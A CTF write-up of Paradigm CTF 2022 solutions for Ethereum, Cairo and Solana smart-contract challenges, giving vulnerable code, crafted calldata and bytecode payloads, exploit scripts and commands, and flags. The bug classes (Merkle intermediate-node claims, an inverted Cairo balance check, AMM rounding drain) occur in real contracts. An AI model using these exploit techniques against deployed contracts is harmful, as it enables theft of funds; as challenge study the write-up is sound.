

# Paradigm CTF 2022 Writeup

_This writeup is **WIP** and frequently updated._

Paradigm CTF: https://twitter.com/paradigm_ctf.
The source code for the ctf infrastructure is in [paradigmxyz/paradigm-ctf-infrastructure](https://github.com/paradigmxyz/paradigm-ctf-infrastructure).

The challenges I solved during the contest are as follows. 



I plan to add exploits for challenges that could not be solved soon.

---

**Table of Contents**
- [Ethereum](#ethereum)
  - [LOCKBOX2](#lockbox2)
  - [MERKLEDROP](#merkledrop)
  - [RANDOM](#random)
  - [RESCUE](#rescue)
  - [SOURCECODE](#sourcecode)
  - [TRAPDOOOR](#trapdooor)
- [Cairo](#cairo)
  - [RIDDLE-OF-THE-SPHINX](#riddle-of-the-sphinx)
  - [CAIRO-PROXY](#cairo-proxy)
- [Solana](#solana)
  - [OTTERWORLD](#otterworld)
  - [OTTERSWAP](#otterswap)

---

## Ethereum

### LOCKBOX2
[Challenge & Exploit](Lockbox2)

A same calldata can be sent to five functions from `stage1` to `stage5`. The goal is to satisfy the conditions of all functions.

**stage1**
```solidity
function stage1() external pure {
    require(msg.data.length < 500);
}
```
This is easy.

**stage2**
```solidity
function stage2(uint256[4] calldata arr) external pure {
    for (uint256 i = 0; i < arr.length; ++i) {
        require(arr[i] >= 1);
        for (uint256 j = 2; j < arr[i]; ++j) {
            require(arr[i] % j != 0);
        }
    }
}
```
All four elements of the `uint256` array must be small prime numbers.

**stage3**
```solidity
function stage3(uint256 a, uint256 b, uint256 c) external view {
    assembly {
        mstore(a, b)
    }
    (bool success, bytes memory data) = address(uint160(a + b)).staticcall("");
    require(success && data.length == c);
}
```
It is impossible to create a contract whose address is `address(uint160(a + b))`.

By overwriting the zero slot using `mstore`, the condition `data.length == c` can be satisfied.

To learn more about the zero slot, see [the Solidity document](https://docs.soliditylang.org/en/v0.8.16/internals/layout_in_memory.html).

>`0x00` - `0x3f` (64 bytes): scratch space for hashing methods.
`0x40` - `0x5f` (32 bytes): currently allocated memory size (aka. free memory pointer).
`0x60` - `0x7f` (32 bytes): zero slot. Scratch space can be used between statements (i.e. within inline assembly). The zero slot is used as initial value for dynamic memory arrays and should never be written to (the free memory pointer points to 0x80 initially).


**stage4**
```solidity
function stage4(bytes memory a, bytes memory b) external {
    address addr;
    assembly {
        addr := create(0, add(a, 0x20), mload(a))
    }
    (bool success,) = addr.staticcall(b);
    require(tx.origin == address(uint160(uint256(addr.codehash))) && success);
}
```
This condition can be satisfied by using the algorithm that generates an address (the hash of a public key).

**stage5**
```solidity
function stage5() external {
    if (msg.sender != address(this)) {
        (bool success,) = address(this).call(abi.encodePacked(this.solve.selector, msg.data[4:]));
        require(!success);
    }
}
```
There are a few ways to distinct a `delegatecall` from a `call`. In this case I use the `GAS` opcode.

Payload:
```
PUSH1
2
GAS
MOD
PUSH1
[LABEL] // 8
JUMPI
STOP
JUMPDEST
```

**Construct a calldata**

See: [construct_calldata.py](Lockbox2/construct_calldata.py)

```
python construct_calldata.py
```

The script outputs the following:
```
private_key = 33066969900863013438679484345314422830357761466446460687128501697697808975449
public_key_hex = '000f3970c75c7bd01fe93a61b0e00841b983e5755c847a3d97bda0ca8ec8aef53ddbd8cedd0912627192e238d2479938481c78c0e88b532b6e6d64a77d3e40fe'

calldata = '890d690800000000000000000000000000000000000000000000000000000000000000610000000000000000000000000000000000000000000000000000000000000101000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000010060025A06600857005b5b5b3060408060153d393df3000f3970c75c7bd01fe93a61b0e00841b983e5755c847a3d97bda0ca8ec8aef53ddbd8cedd0912627192e238d2479938481c78c0e88b532b6e6d64a77d3e40fe0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000'
```

**Layout of the calldata**
```
890d6908
0000000000000000000000000000000000000000000000000000000000000061 [0x0, 0x20)
0000000000000000000000000000000000000000000000000000000000000101 [0x20, 0x40)
0000000000000000000000000000000000000000000000000000000000000001 [0x40, 0x60)
0000000000000000000000000000000000000000000000000000000000000001 [0x60, 0x80)
0060025A06600857005b5b5b3060408060153d393df3000f3970c75c7bd01fe9 [0x80, 0xa0)
3a61b0e00841b983e5755c847a3d97bda0ca8ec8aef53ddbd8cedd0912627192 [0xa0, 0xc0)
e238d2479938481c78c0e88b532b6e6d64a77d3e40fe00000000000000000000 [0xc0, 0xe0)
0000000000000000000000000000000000000000000000000000000000000000 [0xe0, 0x100)
0000000000000000000000000000000000000000000000000000000000000000 [0x100, 0x120)
0000000000000000000000000000000000000000000000000000000000000000 [0x120, 0x140)
```

**Exploit**
```
forge script Lockbox2ExploitScript --fork-url $RPC_PARADIGM --private-keys $PRIVATE_KEY1 --private-keys $PRIVATE_KEY2 --gas-limit 10000000 --sig "run(address)" $SETUP_ADDRESS -vvvvv --broadcast
```

Flag: `PCTF{10ck80x_20ck5}`

### MERKLEDROP
[Challenge & Exploit](MerkleDrop)

`claim` function of `MerkleDistributor` is vulnerable. 
```solidity
function claim(uint256 index, address account, uint96 amount, bytes32[] memory merkleProof) external {
    require(!isClaimed(index), "MerkleDistributor: Drop already claimed.");

    // Verify the merkle proof.
    bytes32 node = keccak256(abi.encodePacked(index, account, amount));
    require(MerkleProof.verify(merkleProof, merkleRoot, node), "MerkleDistributor: Invalid proof.");

    // Mark it claimed and send the token.
    _setClaimed(index);
    require(ERC20Like(token).transfer(account, amount), "MerkleDistributor: Transfer failed.");

    emit Claimed(index, account, amount);
}
```
The intermediate node of the Merkle tree can be claimed. See also: https://github.com/OpenZeppelin/openzeppelin-contracts/issues/3091

The size of `account` is 20 bytes, and the size of `amount` is 12 bytes.
The total number of bytes is 32 bytes.


**Get claimable nodes**
```
python get_claimable_node.py
```

**An example of an intermediate node that can be claimed**
```solidity
bytes32[] memory merkleProof = new bytes32[](5);
merkleProof[0] = 0x8920c10a5317ecff2d0de2150d5d18f01cb53a377f4c29a9656785a22a680d1d;
merkleProof[1] = 0xc999b0a9763c737361256ccc81801b6f759e725e115e4a10aa07e63d27033fde;
merkleProof[2] = 0x842f0da95edb7b8dca299f71c33d4e4ecbb37c2301220f6e17eef76c5f386813;
merkleProof[3] = 0x0e3089bffdef8d325761bd4711d7c59b18553f14d84116aecb9098bba3c0a20c;
merkleProof[4] = 0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5;
merkleDistributor.claim(0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442, 0xd48451c19959e2D9bD4E620fBE88aA5F6F7eA72A, 0x00000f40f0c122ae08d2207b, merkleProof);
```

**Test**
```
forge test -vvvvv --match-contract MerkleDropExploitTest
```

**Exploit**
```
forge script MerkleDropExploitScript --fork-url $RPC_PARADIGM --private-key $PRIVATE_KEY --gas-limit 10000000 --sig "run(address)" $SETUP_ADDRESS -vvvvv --broadcast
```

Flag `PCTF{N1C3_Pr00F_8r0}`


### RANDOM
[Challenge & Exploit](Random)

Execute the following code.
```
Setup(setupAddress).random().solve(4);
```

**Test**
```
forge test -vvvvv --match-contract RandomExploitTest
```

**Exploit**
```
forge script RandomExploitScript --fork-url $RPC_PARADIGM --private-key $PRIVATE_KEY --gas-limit 10000000 --sig "run(address)" $SETUP_ADDRESS -vvvvv --broadcast
```

Flag: `PCTF{IT5_C7F_71M3}`

### RESCUE
[Challenge & Exploit](Rescue)

The goal is to make the WETH balance of `mcHelper` to 0.

WETH can be converted to LP tokens using the `_addLiquidity` function.

```solidity
function _addLiquidity(address token0, address token1, uint256 minAmountOut) internal {
    (,, uint256 amountOut) = router.addLiquidity(
        token0,
        token1,
        ERC20Like(token0).balanceOf(address(this)),
        ERC20Like(token1).balanceOf(address(this)),
        0,
        0,
        msg.sender,
        block.timestamp
    );
    require(amountOut >= minAmountOut);
}
```

**Exploit**
```
forge script RescueExploitScript --fork-url $RPC_PARADIGM --private-key $PRIVATE_KEY --gas-limit 10000000 --sig "run(address)" $SETUP_ADDRESS -vvvvv --broadcast
```

Flag: `PCTF{MuCH_4PPr3C1473_53r}`

### SOURCECODE
[Challenge & Exploit](SourceCode)

The goal is to create a quine with EVM byte code.

There are restrictions on the opcodes that can be used.

A example quine written in the Huff language:
```js
#define macro MAIN() = takes (0) returns (0) {
    0x5b5b5b5b5b5b5b5b5b5b5b5b5b5b5b80600152602152607f60005360416000f3 // code

    dst:dst:dst:dst:dst:dst:dst:dst:dst:dst:dst:dst:dst:dst:dst: // padding

    dup1
    0x01
    mstore  // mem: 00code
    0x21
    mstore  // mem: 00codecode

    0x7f    
    0x00
    mstore8 // mem: 7fcodecode

    0x41
    0x00
    return
}
```

**Compile the quine**
```
$ huffc -r Quine.huff
⠙ Compiling... 
7f5b5b5b5b5b5b5b5b5b5b5b5b5b5b5b80600152602152607f60005360416000f35b5b5b5b5b5b5b5b5b5b5b5b5b5b5b80600152602152607f60005360416000f3
```

[evm.codes playground](https://www.evm.codes/playground?unit=Wei&codeType=Bytecode&code=%277f~y~y%27~zzzzz80x0w2w7f6z5b5b5by00053x41x00f3x60w152x%01wxyz~_)

**Test**
```
forge test -vvvvv --match-contract SourceCodeExploitTest
```

**Exploit**
```
forge script SourceCodeExploitScript --fork-url $RPC_PARADIGM --private-key $PRIVATE_KEY --gas-limit 10000000 --sig "run(address)" $SETUP_ADDRESS -vvvvv --broadcast
```

Flag: `PCTF{QUiNE_QuiNe_qU1n3}`

### TRAPDOOOR 
[Challenge & Exploit](Trapdooor)

The goal is to get the environment variable `FLAG` in Forge script. 

This can be solved by using the Foundry cheatcodes and sending the flag to the specified RPC.

**Test**
```
export FLAG="FLAG{DUMMY}"
forge script src/ParadigmCTF2022/Trapdooor/TrapdooorScript.sol:TrapdooorScript -vvvvv
```

**Exploit**
```
python exploit.py
```

**Construct the flag**
```
python construct_flag.py
```

Flag: `PCTF{d0n7_y0u_10v3_f1nd1n9_0d4y5_1n_4_c7f}`


## Cairo

### RIDDLE-OF-THE-SPHINX
[Challenge & Exploit](RiddleOfTheSphinx)

Reading `chal.py`, we see that the goal is to make the result of the `solution` function call to the challenge contract `bytes_to_long(b "man")`.
```py
async def checker(client: AccountClient, riddle_contract: Contract, player_address: int) -> bool:
    solution = (await riddle_contract.functions["solution"].call()).solution

    return to_bytes(solution).lstrip(b"\x00") == b"man"
```

The value of `bytes_to_long(b "man")` is calculated to be `7168366`.
```
$ python -c "from Crypto.Util.number import bytes_to_long; print(bytes_to_long(b'man'))"
7168366
```

The `solution` function of the challenge contract reads and returns `_solution`.
```cairo
@view
func solution{
    syscall_ptr : felt*,
    pedersen_ptr : HashBuiltin*,
    range_check_ptr,
}() -> (solution : felt):
    let (solution) = _solution.read()
    return (solution)
end
```

The `solve` function can write `_solution`.
```cairo
@storage_var
func _solution() -> (res : felt):
end

@external
func solve{
    syscall_ptr : felt*,
    pedersen_ptr : HashBuiltin*,
    range_check_ptr,
}(solution : felt):
    _solution.write(solution)
    return ()
end
```

Thus, for example, the condition of `checker` is satisfied by executing the `solve` function as follows.
```py
await contract.functions["solve"].invoke(7168366, max_fee=int(1e16))
```

**Exploit**
```
python exploit.py
```

Flag: `PCTF{600D_1UCK_H4V3_FUN}`

### CAIRO-PROXY
[Challenge & Exploit](CairoProxy)

Reading `chal.py`, we see that the goal is to make the player's balance `int(50000e18)`.
```py
async def checker(client: AccountClient, proxy_contract: Contract, player_address: int) -> bool:
    erc20_address = calculate_contract_address_from_hash(
        salt=111111,
        class_hash=await client.get_storage_at(proxy_contract.address, get_storage_var_address("implementation"), "latest"),
        constructor_calldata=[],
        deployer_address=0,
    )

    erc20_contract = await Contract.from_address(erc20_address, client)

    wrapper_contract = Contract(
        proxy_contract.address,
        erc20_contract.data.abi,
        client,
    )
    
    player_balance = (await wrapper_contract.functions["balanceOf"].call(player_address)).balance

    return player_balance == int(50000e18)
```

There is a vulnerability in the `burn` function of the `almost_erc20`  contract that causes account balances to overflow.
```py
@external
func burn{
    syscall_ptr : felt*,
    pedersen_ptr : HashBuiltin*,
    range_check_ptr,
    }(account : felt, amount : Uint256):
    alloc_locals

    uint256_check(amount)
    let (account_balance) = balances.read(account=account)

    let (enough_balance) = uint256_le(account_balance, amount)
    assert enough_balance = TRUE

    let (new_account_balance) = uint256_sub(account_balance, amount)

    balances.write(account=account, value=new_account_balance)

    return()
end
```

`uint256_le(account_balance, amount)` is wrong. The correct code is `uint256_le(amount, account_balance)`.

Thus, for example, the condition of `checker` is satisfied by executiing the `burn` function as follows.
```py
await wrapper_contract.functions["burn"].invoke(player_address, (1 << 256) - int(50000e18), max_fee=int(1e16))
```

**Generate ABI**
```
starknet-compile almost_erc20.cairo --abi ../../almost_erc20_abi.json
```

**Exploit**
```
python exploit.py
```

Flag: `PCTF{d3f4u17_pu811c_5721k35_4941n}`

## Solana

### OTTERWORLD

The goal is to satisfy the condition `magic == 0x1337 * 0x7331` of the `get_flag` function in `framework/chall/programs/chall/src/lib.rs`.
```rs
pub fn get_flag(_ctx: Context<GetFlag>, magic: u64) -> Result<()> {
    assert!(magic == 0x1337 * 0x7331);

    Ok(())
}
```

The `framework-solve/solve/programs/solve/src/lib.rs` already contains the `get_flag` function call.
```rs
chall::cpi::get_flag(cpi_ctx, 0x1337 /* TODO */)?;
```

Simply change the `get_flag` function call as follows.
```rs
chall::cpi::get_flag(cpi_ctx, 0x1337 * 0x7331)?;
```

**Exploit**
```
./setup.sh
./run.sh
```

Flag: `PCTF{0tt3r_w0r1d_8c01j3}`

### OTTERSWAP
[Exploit](OtterSwap)

The goal is satisfy the condition `amt_a + amt_b == 3 * AMT - 1` of the `handle_connection` function in `src/ParadigmCTF2022/OtterSwap/_client/framework/src/main.rs`. 
```rs
    let in_token_account = chall.read_token_account(user_in_account).await?;
    let out_token_account = chall.read_token_account(user_out_account).await?;

    let amt_a = in_token_account.amount;
    let amt_b = out_token_account.amount;

    writeln!(socket, "funds 1: {:?}", amt_a)?;
    writeln!(socket, "funds 2: {:?}", amt_b)?;

    if amt_a + amt_b == 3 * AMT - 1 {
        writeln!(socket, "congrats!")?;
        if let Ok(flag) = env::var("FLAG") {
            writeln!(socket, "flag: {:?}", flag)?;
        } else {
            writeln!(socket, "flag not found, please contact admin")?;
        }
    }
```


The following code of the `swap` function in `src/ParadigmCTF2022/OtterSwap/_client/framework/chall/programs/chall/src/lib.rs` makes it vulnerable to drain tokens from the pool.
```rs
        let x = in_pool_account.amount;
        let y = out_pool_account.amount;

        let out_amount = y - (x * y) / (x + amount);
```

A function that calculates how best to buy and sell:
```py
def f(pool_a_amount, pool_b_amount, player_a_amount, player_b_amount):

    max_total_player_amount = 0
    optimal_strategy = None

    for first_amount in range(1, player_a_amount + 1):
        x = pool_a_amount
        y = pool_b_amount
        amount = first_amount

        out_amount = y - (x * y) // (x + amount)

        player_a_amount_2 = player_a_amount - amount
        player_b_amount_2 = player_b_amount + out_amount
        pool_a_amount_2 = pool_a_amount + amount
        pool_b_amount_2 = pool_b_amount - out_amount

        for second_amount in range(1, player_b_amount_2 + 1):
            x = pool_b_amount_2
            y = pool_a_amount_2
            amount = second_amount

            out_amount = y - (x * y) // (x + amount)

            player_b_amount_3 = player_b_amount_2 - amount
            player_a_amount_3 = player_a_amount_2 + out_amount
            pool_b_amount_3 = pool_b_amount_2 + amount
            pool_a_amount_3 = pool_a_amount_2 - out_amount

            total_player_amount = player_a_amount_3 + player_b_amount_3
            if total_player_amount > max_total_player_amount:
                max_total_player_amount = total_player_amount
                optimal_strategy = (first_amount, second_amount, pool_a_amount_3, pool_b_amount_3, player_a_amount_3, player_b_amount_3)

    return optimal_strategy
```

Using this function, compute a sequence of buy and sell strategies:
```
$ python compute_optimal_strategy.py
sell 7 A tokens
sell 3 B tokens
player_a_amount, player_b_amount=(10, 2)
sell 4 A tokens
sell 3 B tokens
player_a_amount, player_b_amount=(12, 2)
sell 3 A tokens
sell 2 B tokens
player_a_amount, player_b_amount=(13, 3)
sell 10 A tokens
sell 3 B tokens
player_a_amount, player_b_amount=(14, 5)
sell 10 A tokens
sell 2 B tokens
player_a_amount, player_b_amount=(15, 7)
sell 11 A tokens
sell 1 B tokens
player_a_amount, player_b_amount=(20, 9)
```

Flag: `PCTF{l00k_th3_0tt3r_way_z8210}`